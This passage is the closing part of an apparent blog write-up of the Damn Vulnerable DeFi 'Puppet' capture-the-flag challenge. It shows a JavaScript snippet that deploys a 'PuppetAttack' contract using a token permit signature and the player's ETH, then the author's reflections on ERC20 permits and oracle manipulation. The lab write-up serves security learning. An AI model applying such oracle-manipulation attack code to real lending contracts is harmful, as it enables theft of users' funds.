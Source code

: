     attack = await (await ethers.getContractFactory('PuppetAttack', player)).deploy(
        player.address,
        token.address,
        lendingPool.address,
        uniswapExchange.address,
        spender,
        value,
        deadline,
        sig.v, sig.r, sig.s,
        {
            // send most ETH to the attack contract, keeping some for gas
            value: PLAYER_INITIAL_ETH_BALANCE - 1n * 10n**18n, 
            gasLimit: 1e7
        }
    );
});
{{< /code >}}

{{< image src="./img/solved.png" alt="" position="center" style="border-radius: 5px; max-width: 80%;" >}}

# Conclusion

This challenge was interesting, and I learnt a lot about ERC20 permits and oracle manipulation. Despite being the first out of a set of three challenges, its difficulty deceived me with the one transaction requirement.

Huge thanks to [`Faith`](https://twitter.com/farazsth98) for helping with the one transaction requirement, and for teaching me a lot throughout my Web3 learning journey.

As this is my first Web3 post, if I've made any errors or anything to improve on, please let me know on Discord `thesavageteddy` or Twitter/X [`@teddyctf`](https://twitter.com/teddyctf).

Having almost finished DamnVulnerableDefi, I'm looking at getting into auditing contracts soon!

- teddy / TheSavageTeddy











